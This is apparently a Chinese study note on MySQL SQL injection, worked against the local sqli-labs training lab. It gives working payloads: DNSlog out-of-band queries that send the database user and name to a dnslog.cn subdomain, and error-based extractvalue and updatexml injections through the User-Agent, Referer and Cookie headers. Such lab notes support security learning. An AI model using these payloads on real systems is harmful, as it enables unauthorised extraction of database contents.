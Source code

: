 我们输入域名之后 ，需要向DNS服务器查询对应的IP地址，DNS服务器在解析的时候会留下记录，产生日志，我们可以通过查看日志来获取相应信息

![image-20201213182240957](D:\document\md\数据库(MySQL)相关注入语句的收集和学习.assets\image-20201213182240957.png)

payload:

```
# 查询当前用户名
http://127.0.0.1/sqlilabs/Less-1/?id=1' and (select load_file(concat('\\\\',(select hex(user())),'.5srmkc.dnslog.cn/abc'))) --+

# 查看当前数据库名
http://127.0.0.1/sqlilabs/Less-1/?id=1' and (select load_file(concat('\\\\',(select database()),'.5srmkc.dnslog.cn/abc'))) --+
```

相关网站：www.dnslog.cn

![image-20201213183240282](D:\document\md\数据库(MySQL)相关注入语句的收集和学习.assets\image-20201213183240282.png)

相关网站：https://www.bejson.com/convert/ox2str/

![image-20201213192730846](D:\document\md\数据库(MySQL)相关注入语句的收集和学习.assets\image-20201213192730846.png)



## HTTP头中的SQL注入

用户提交的参数会被代码中的某些措施进行过滤，但对于HTTP头中提交的内容很有可能就没有进行过滤，如HTTP头中User-Agent、Referer、Cookies等。

**1.HTTP User-Agent 注入**

判断注入点

![image-20201206223156670](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201206223156670.png)

```
' and extractvalue(1,concat(0x7e,(payload),0x7e)) or '1'='1
```

![image-20201206222552051](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201206222552051.png)

**2.HTTP Referer 注入**

注入点在Referer位置

**3.Cookie注入**

```
Cookie: uname=admin' and updatexml(1,concat(0x7e,(select database()),0x7e),1)#
```

![image-20201207155137874](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201207155137874.png)

**Sqlmap测试**

在注入点位置处添加*
